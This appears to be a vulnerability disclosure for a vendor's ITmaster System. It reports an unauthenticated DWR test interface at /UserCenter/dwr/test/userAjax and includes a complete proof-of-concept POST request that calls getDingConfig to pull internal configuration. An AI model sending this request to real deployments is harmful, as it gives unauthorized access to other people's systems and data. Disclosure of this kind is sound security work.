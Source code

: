## Unauthorized access exists on the ITmaster System

Company website ：https://www.nstrong.com/

Vulnerability description: Unauthorized access exists on the interface of the system, which may leak internal system information and affect the normal use of the system.

Affected system：

![1](1.png)

## Vulnerability details（漏洞详情）

```
/UserCenter/dwr/test/userAjax  Unauthorized access to the interface page
```

![2](2.png)

The functions of this page are available and may threaten the user's system security

![3](3.png)

POST data:

```http
POST /UserCenter/dwr/call/plaincall/userAjax.getDingConfig.dwr HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 184
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: text/plain
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=49BA7EDA18CA1AC9C15D78ACDF69594A
Connection: close

callCount=1
page=/UserCenter/dwr/test/userAjax
httpSessionId=
scriptSessionId=B1046221C4EA245DED5A9162D26421B4492
c0-scriptName=userAjax
c0-methodName=getDingConfig
c0-id=0
batchId=17

```

